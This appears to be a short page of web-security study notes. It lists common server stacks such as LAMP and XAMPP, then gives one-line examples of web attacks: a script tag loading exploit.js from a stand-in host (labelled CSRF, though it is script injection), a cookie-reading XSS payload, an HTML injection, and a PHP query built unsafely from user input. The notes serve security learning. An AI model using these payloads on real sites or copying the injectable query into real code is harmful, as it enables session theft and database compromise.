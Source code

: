 
https://en.wikipedia.org/wiki/Solution_stack

|Combinations|Components|
|---|---|
|[LAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle))|`Linux`, `Apache`, `MySQL`, and `PHP`.|
|[WAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle)#WAMP)|`Windows`, `Apache`, `MySQL`, and `PHP`.|
|[WINS](https://en.wikipedia.org/wiki/Solution_stack)|`Windows`, `IIS`, `.NET`, and `SQL Server`|
|[MAMP](https://en.wikipedia.org/wiki/MAMP)|`macOS`, `Apache`, `MySQL`, and `PHP`.|
|[XAMPP](https://en.wikipedia.org/wiki/XAMPP)|Cross-Platform, `Apache`, `MySQL`, and `PHP/PERL`.|

CSRF
Code: html

```html
"><script src=//www.example.com/exploit.js></script>
```

XSS
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

HTML Injection
```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

SQLi
```php
$query = "select * from users where name like '%$searchInput%'";
```
